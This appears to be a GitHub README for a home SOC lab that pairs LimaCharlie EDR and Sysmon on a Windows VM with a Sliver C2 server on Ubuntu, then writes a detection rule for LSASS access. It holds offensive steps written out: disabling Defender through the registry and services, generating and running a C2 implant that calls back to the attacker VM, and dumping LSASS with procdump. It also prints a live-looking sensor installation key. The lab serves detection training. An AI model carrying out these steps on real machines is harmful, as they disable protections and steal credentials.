# Home-SOC-Lab-Build-Simulate-Detect
## Disable Defender on Windows VM
1. Windows Security > Virus & threat protection settings > toggle off "Real-time protection, Cloud-delivered protection ,Automatic sample submission and Tamper Protection".

   

2. Run > gpedit.msc > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enable > Apply and OK

   

3.Permanently Disable Defender via Registry

Cmd (administrator)> type : REG ADD "hklm\software\policies\Microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f

   
 
4.Go to mscongfig.exe > Boot > click Safe boot - Minimal > Appy and ok then restart

   

5. After restart will in to Safe mode

6.Registry Editor > HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\Sense > click start set value data to 4 and Base Hexadecimal then ok.
   
   

7.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdBoot > click start set value data to 4 and Base Hexadecimal then ok.

8.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WinDefend > click start set value data to 4 and Base Hexadecimal then ok.

9.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdNisDrv > click start set value data to 4 and Base Hexadecimal then ok.

10.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdNisSvc > click start set value data to 4 and Base Hexadecimal then ok.

11.HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Service\WdFilter > click start set value data to 4 and Base Hexadecimal then ok.

12. Go back to mscongfig.exe > Boot > unclick Safe boot 

Install Sysmon on Windows VM
1. Windows PowerShell (Administrator) > Invoke-WebRequest - Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
2.After done download expand > Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
3.Download SwifitOnSecurity's Sysmon config.
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
4.Install Sysmon with Swift's config
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i
C:\Windows\Temp\Sysmon\sysmonconfig.xml

Installing LimaCharile agent andLimaCharlie Portal
Open Browser> limacharlie.io >login 
Create a new organization
Then Add sensor > select Windows > Create new - Enter your Decription as "Windows VM lab"

   

After created select the Installation Key we just created
   
   

Select x86-64(.exe) and skip ahead to Windows VM first

   

In Windows VM go to web browser download :
https://downloads.limacharlie.io/sensor/windows/64 

   

Go to Cmd (Administrator) following command

cd C:\Users\User\Downloads

Now we install command provided by LimaCharlie which contain installation key
   
   

command:
hcp_win_x64_release_4.33.13 -i AAAABgAAAQsFAAAAIzkxNTc3OThjNTBhZjM3MmMubGMubGltYWNoYXJsaWUuaW8AAAABEAIBuwAAAQwFAAAAIzkxNTc3OThjNTBhZjM3MmMubGMubGltYWNoYXJsaWUuaW8AAAABEQIBuwAAAAiBAAAABQAAAAUHAAAAEAl5saLE0kA7vpwqHt6VX4MAAAAJBwAAABC7cIafZnJBE7AHHFS39htSAAAABAcAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAcDAAAAAAAAAAYDAAAAAAAAAQ4HAAABJjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL2SpxyNrur8WPuRUzJqn8rXqc1hMD/E2sy4lWZrafMcD0BIpxHEDWRj0NvNkUTa55RPAws5CPEiOiVrxfHYjrpXWxF8kzjZMFJZn/kWDFIqWEol9EwBKJZBOBe1D/MqSBOkHrfGe0+AbCpAERDpsZFzlPfMpyAijnyyNDxIgBYle/aDQmmitf4w1Tx3w46q/ND/XR24EJL/1zqwwG61GUCoL3VV/DToqWYXCY7Swdt8f1hicr8QgSVVeJ8o4/qTVKP9S40QuZe0fpiEEOW0eDUnpIg3uMUHp2QDulwXjKh6HuD7i8DUkXX37hzcJdMEsdcg+ZBo8Zwzo70tDDvDvW8CAwEAAQ==

   

after install the limacharlie webpage will appear "Detected new sensor!"

   

Now go to select the organizations just we created> sensors > Artifact collection > click "Add rule"

   

Name: windows-sysmon-logs
Platforms: Windows
Path Pattern:wel://MIcrosoft-Windows-Sysmon/Operational:*
Retention Period:10
Click "Save Rule"

   

## Setup Attack System Sliver C2
On Ubuntu upgrade to root mode "sudo su" and enter your password
(Document_Images/images20.png)
In the screenshot above,our VM has the IP address of 192.168.137.132/24.This IP is assigned automatically (DHCP)by VMware and could change in the fuitture so we next want to statically assign it so that it does not change.
a. Take note of the device name of the ethernet adapter as well, at the parent level above the IP address. In case, it is ens33 - we need that in the next step.
b. Write down the Linux VM's IP address because you need it multiple times throughout this guide.

Let's find VM IP address using as a gateway.
"ping _gateway -c 1"

   

192.168.137.2

Now we write a yaml the configuration file of the network manager "netplan"

sudo nano /etc/netplan/00-installer-config.yaml

network:
   ethernets:
     ens33:
       dhcp4: no
       addresses: [192.168.137.132/24]
       gateway4: 192.168.2.2
       nameservers:
	 addresses: [8.8.8.8,8.8.4.4]
 version: 2

   

Save the file and test your new configuration for errors, ignore the warning about gateway4 being deprecated

sudo netplan try

Apply the configuration 

sudo netplan apply

After apply check the connectivity, ping Google DNS.

ping 8.8.8.8

   

Now statically assigned IP address that should not change, let's SSH onto the VM from your host system to make future CLI activities easier thanks to copy and paste

I using my Windows system to use SSH client. cmd (admin) and run.
ssh user@[Linux_VM_IP]

   

Now on the new SSH session , drop into a root shell.
sudo su

Download Sliver, C2 framework by BishopFox.
# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.32/sliver-server_linux -O /user/local/bin/sliver-server

# Make it executable
chmod +x /usr/local/bin/sliver-server

#install mingw-w64 for additional capabilities
apt install -y mingw-w64

Now create a working directory will use in future steps
# Create and enter our working directory
mkdir -p /opt/sliver

## Generate C2 Payload

Launch Sliver server

sliver-server

   

Generate first C2 session payload . Use your Linux VM's IP address set in part 1.

generate --http [Linux_VM_IP] --save /opt/sliver

   

Take note the output file will randomized name.

Confirm new implant configuration
implants

   

Now have a C2 payload we can drop onto out Windows VM. Exit sliver for now.

exit

Now download C2 payload from the Linux VM to the Windows VM. Use python trick that spins up a temporary web server.
cd /opt/sliver
python3 -m http.server 80

Switch to Windows VM and launch an Administrative PowerShell.
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe

   

## Start Command and Control Session
1. Now the payload is on the Windows VM, we switch back to Linux VM SSH session and enable Sliver HTTP server to catch the callback.
a. Terminate the python web server we started pressing " Ctrl + c "
b. Relaunch Sliver

sliver-server

c. Start Sliver HTTP listener

http

   

2. Return Windows VM and execute C2 payload from download location using administrative PowerShell prompt we had from before

C:\Users\bside\Downloads\NEAT_PUFFIN.exe

3.After connect, you should see your session check in on Sliver server.

   

4. Verify your session in Sliver

sessions

   

5. To interact with your new C2 session, type following command into Sliver shell
user [session_id]

   

6. Now you interacting directly with C2 session on Windows VM. Let run a few basic command to get our bearing on the victim host.
a. Get basic info of session
info
whoami

b. let's privileges
getprivs

   

c. Examine network connections occurring of the remote system
netstat

   

## Observer EDR Telementry
Go to LimaCharlie (EDR) Sensor List > select Windows sensor
images35
On the left-side menu of this sensor,click "Processes"
Then will see the "NEAT_PUFFIN.exe" , attack source IP.

    

The network log also can see the "NEAT_PUFFIN.exe".

    

Now let's Detect it
Go the Timeline filter search "SENSITIVE_PROCESS_ACCESS"events.Pick any one of them as there will se the system legitimately accessing lsass.

   

Now craft a detection & response (D&R) rule that would alert anytime this activity occurs.
a. click the button "Build D&R rule"

   

b. In the "Detect" section of the new rule, remove all contents and replace them with this.
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe

c. In the "respond" section of the new rule, remove all contents and replace them with this and create.
- action: report
  name: LSASS access

   

Let's do it again with attack and with detections.

1. Return to your Sliver server console 
procdump -n lsass.exe -s lsass.dmp

   

2.Go to Limacharlie > Detections will appear LSASS access report .

    

## 🎥 Demo Video
